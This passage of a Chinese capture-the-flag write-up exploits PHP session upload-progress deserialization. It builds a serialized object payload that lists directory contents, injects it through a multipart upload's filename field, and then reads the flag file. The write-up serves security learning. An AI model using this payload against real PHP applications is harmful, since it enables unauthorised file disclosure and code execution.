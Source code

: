 构建poc

```php
class OowoO{
    public $mdzz="print_r(scandir(dirname(__FILE__)));";

}
$a = new OowoO();
echo serialize($a);
```

输出 ：

```
O:5:"OowoO":1:{s:4:"mdzz";s:36:"print_r(scandir(dirname(__FILE__)));";}
```

最终payload:

```php
|O:5:\"OowoO\":1:{s:4:\"mdzz\";s:36:\"print_r(scandir(dirname(__FILE__)));\";}
```

抓包，其中 http报文中的filename的值对应

`$_SESSION['upload_progress_laruence']['files'][0]['name']`
http报文中的name的值对应
`$_SESSION['upload_progress_laruence']['files'][0]['filed_name'] ` 

这两处都可以攻击，这里选择将filename修改为payload

![image-20200531201731257](/images/image-20200531201731257.png)

可以返回的文件名中包含有Here_1s_7he_fl4g_buT_You_Cannot_see.php

flag就在这个文件里，通过phpinfo可以得到文件的绝对路径，然后就可以利用file_get_content函数读取flag出来。

![image-20200531202327222](/images/image-20200531202327222.png)
